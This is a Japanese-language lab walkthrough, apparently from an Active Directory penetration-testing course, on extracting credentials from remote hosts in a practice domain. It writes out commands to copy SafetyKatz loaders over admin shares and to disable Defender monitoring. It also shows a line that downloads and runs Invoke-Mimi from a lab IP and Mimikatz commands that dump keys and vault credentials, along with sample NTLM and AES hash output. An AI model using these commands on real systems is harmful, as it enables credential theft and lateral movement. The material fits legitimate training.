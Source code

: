 ```
VERBOSE: Trying to run a command parallely on provided computers list using 
PSRemoting . 
dcorp-mgmt 
dcorp-adminsrv 
[snip] 
```
---
## クレデンシャル抽出(SafetyKatz for extracting credentials )
1. Loader.exeとSafety.batをdcorp-mgmtにコピーする
```
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe 
Does \\dcorp-mgmt\C$\Users\Public\Loader.exe specify a file name 
or directory name on the target 
(F = file, D = directory)? F 
C:\AD\Tools\Loader.exe 
1 File(s) copied 
 
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat 
Does \\dcorp-mgmt\C$\Users\Public\Safety.bat specify a file name 
or directory name on the target 
(F = file, D = directory)? F 
C:\AD\Tools\Safety.bat 
1 File(s) copied 
```
2. クレデンシャルを抽出する
```
C:\Windows\system32> winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x" 
 
C:\Windows\system32>winrs -r:dcorp-mgmt C:\Users\Public\Safety.bat 
[snip] 
Authentication Id : 0 ; 58866 (00000000:0000e5f2) 
Session           : Service from 0 
User Name         : svcadmin 
Domain            : dcorp 
Logon Server      : DCORP-DC 
Logon Time        : 3/3/2023 2:39:12 AM 
SID               : S-1-5-21-719815819-3726368948-3917688648-1118 
 
         * Username : svcadmin 
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL 
         * Password : (null) 
         * Key List : 
           aes256_hmac       
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8 
           rc4_md4           b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```
---
## クレデンシャル抽出(Invoke-Mimi for extracting credentials )
悪用4の別バージョン
この方法では**Invoke-Mimi**を使用する。
1. コネクションを張る
```
PS C:\AD\Tools> Enter-PSSession -ComputerName dcorp-mgmt 
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
dcorp\srvadmin
```


[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 